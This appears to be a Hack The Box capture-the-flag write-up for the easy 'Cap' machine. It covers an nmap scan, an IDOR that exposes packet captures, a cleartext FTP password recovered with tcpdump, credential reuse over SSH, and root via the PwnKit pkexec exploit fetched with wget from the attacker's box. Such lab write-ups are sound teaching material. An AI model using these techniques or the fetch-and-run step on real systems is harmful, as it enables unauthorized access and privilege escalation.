




# Cap - Easy

Target IP: **10.129.62.41**

## User Flag

Initial scan: ```sudo nmap --open 10.129.62.41 -vvv```

Output shows FTP, SSH, HTTP.

```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-11 20:31 EDT
Initiating Ping Scan at 20:31
Scanning 10.129.62.41 [4 ports]
Completed Ping Scan at 20:31, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:31
Completed Parallel DNS resolution of 1 host. at 20:31, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 20:31
Scanning 10.129.62.41 [1000 ports]
Discovered open port 21/tcp on 10.129.62.41
Discovered open port 80/tcp on 10.129.62.41
Discovered open port 22/tcp on 10.129.62.41
Completed SYN Stealth Scan at 20:31, 0.18s elapsed (1000 total ports)
Nmap scan report for 10.129.62.41
Host is up, received reset ttl 63 (0.0092s latency).
Scanned at 2026-09-11 20:31:51 EDT for 0s
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.40 seconds
```

Let's try accessing the FTP server. Maybe we can anonymous login?

Nope.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-z1upkwim7j]─[~]
└──╼ [★]$ ftp 10.129.62.41
Connected to 10.129.62.41.
220 (vsFTPd 3.0.3)
Name (10.129.62.41:root): Anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 
```

Let's access the website. It seems like a portal for displaying network information about a remote machine.



Exploring the options on the top-left dropdown bar, there is an interesting option called "Security Snapshot (5 Second PCAP + Analysis)." If we press on it, we are lead to ```http://10.129.62.41/data/1```. This page seems to track network traffic, with the option to potentially download pcap files.



Let's see what happens if we press on the download button. It actually allows us to download pcap files, with the same number 'x' from ```/data/x``` in the file name ```x.pcap```.



It smells like an IDOR. If we can manipulate the url to other numbers, there might be a chance we can download pcap files of other remote machines or users.

Navigating to ```/data/0```, my hypothesis is confirmed. There a lot more recorded traffic shown on the interface, so downloading and viewing the pcap file might get us some useful information, including potential credentials passed in cleartext.



I downloaded ```0.pcap``` and used ```tcpdump``` to read the file. In the output, we can indeed spot cleartext credentials for the ftp server.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-z1upkwim7j]─[~]
└──╼ [★]$ tcpdump -r 0.pcap
<SNIP>...

09:12:52.585037 IP 192.168.196.16.ftp > 192.168.196.1.54411: Flags [P.], seq 1:21, ack 1, win 502, length 20: FTP: 220 (vsFTPd 3.0.3)
09:12:52.625835 IP 192.168.196.1.54411 > 192.168.196.16.ftp: Flags [.], ack 21, win 4106, length 0
09:12:54.084642 IP 192.168.196.1.54411 > 192.168.196.16.ftp: Flags [P.], seq 1:14, ack 21, win 4106, length 13: FTP: USER nathan
09:12:54.084668 IP 192.168.196.16.ftp > 192.168.196.1.54411: Flags [.], ack 14, win 502, length 0
09:12:54.084772 IP 192.168.196.16.ftp > 192.168.196.1.54411: Flags [P.], seq 21:55, ack 14, win 502, length 34: FTP: 331 Please specify the password.
09:12:54.125843 IP 192.168.196.1.54411 > 192.168.196.16.ftp: Flags [.], ack 55, win 4106, length 0
09:12:55.383140 IP 192.168.196.1.54411 > 192.168.196.16.ftp: Flags [P.], seq 14:36, ack 55, win 4106, length 22: FTP: PASS Buck3tH4TF0RM3!
09:12:55.383176 IP 192.168.196.16.ftp > 192.168.196.1.54411: Flags [.], ack 36, win 502, length 0
09:12:55.390529 IP 192.168.196.16.ftp > 192.168.196.1.54411: Flags [P.], seq 55:78, ack 36, win 502, length 23: FTP: 230 Login successful.

<SNIP>...
```

Let's try logging into the ftp server again with these credentials. 

Our attempt is successful, and we can proceed to get the user flag from here.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-z1upkwim7j]─[~]
└──╼ [★]$ ftp 10.129.62.41
Connected to 10.129.62.41.
220 (vsFTPd 3.0.3)
Name (10.129.62.41:root): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||51148|)
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Sep 12 00:16 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||41572|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |*************************************************************************************************|    33      362.09 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (4.39 KiB/s)
ftp> 
```

## Root Flag

The ftp server didn't seem to have any more useful information, so I tried logging in the ssh service with the same credentials to directly interact with the target.

The credentials worked, and now we have a shell as the ```nathan``` user.

```
nathan@cap:~$ whoami
nathan
```

Any low hanging fruit? Let's check for binaries with the SUID bit set: ```find / -type f -perm -4000 2>/dev/null```

Output shows ```pkexec```. If the version is vulnerable to CVE-2021-4034, we might be able to use ```PwnKit``` for privilege escalation.

```
nathan@cap:~$ find / -type f -perm -4000 2>/dev/null
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/chsh
/usr/bin/su
/usr/bin/fusermount
```

Let's check the version.

```
nathan@cap:~$ pkexec --version
pkexec version 0.105
```

Most definitely vulnerable.

We can use [PwnKit](https://github.com/ly4k/PwnKit/tree/main). Let's get it on our attack box, transfer it over to the target, then run the binary.

```
nathan@cap:~$ wget http://10.10.15.194:8000/PwnKit
--2026-09-12 00:51:45--  http://10.10.15.194:8000/PwnKit
Connecting to 10.10.15.194:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: ‘PwnKit’

PwnKit                              100%[=================================================================>]  17.62K  --.-KB/s    in 0.008s  

2026-09-12 00:51:45 (2.29 MB/s) - ‘PwnKit’ saved [18040/18040]

nathan@cap:~$ chmod +x PwnKit
nathan@cap:~$ ./PwnKit
root@cap:/home/nathan# whoami
root
```

Smooth like butter. We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
